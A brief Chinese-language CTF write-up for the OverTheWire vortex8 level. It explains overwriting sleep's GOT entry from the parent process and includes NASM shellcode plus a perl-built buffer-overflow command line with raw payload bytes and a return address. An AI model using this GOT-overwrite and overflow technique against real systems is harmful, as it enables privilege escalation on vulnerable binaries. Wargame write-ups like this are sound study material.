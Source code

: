 ```yaml
---
title: vortex8
author: rk700
layout: post
redirect_from: /writeup/2014/07/09/vortex8
tags:
  - OverTheWire
  - exploit
---
```

这道题里用了setresuid。但是调用的方式是通过syscall，我实验了下，如果是直接setresuid，那么子线程的uid被改变了；而如果是syscall，那么子线程的uid不变。现在还不清楚这是为什么，估计是和signal什么的有关。

总之，现在必须在子线程里invoke shell。我们还是可以通过修改got来做到。也就是说，先在父进程unsafecode里执行我们的命令，来修改got，然后让父进程先不要退出（否则子进程也结束了）；然后子进程再调用的时候就会跳到修改后的地方，我们在那里放上payload

可以通过

<pre>$ objump -R vortex8</pre>

来获得函数在got的地址。我想试着修改fflush的地址，但没成功，不知道是为什么。修改sleep是可以的

{% highlight nasm %}
BITS 32

mov ebx, 0x0804a008 ;sleep
mov eax, [ebx]
mov dword [ebx], 0xffffd8f2 ;SHELLCODE

loop:
jmp loop
{% endhighlight %}

最后的部分是无限循环，这样主线程就不会先于子线程退出

确定了strcpy的目标到返回地址的距离然后 

<pre>$ /tmp/nabla$ /vortex/vortex8 `perl -e 'print "A"x1021 . "\xbb\x08\xa0\x04\x08\x8b\x03\xc7\x03\xf2\xd8\xff\xff\xeb\xfe"  . "\xbd\xd2\xff\xff"'`</pre>
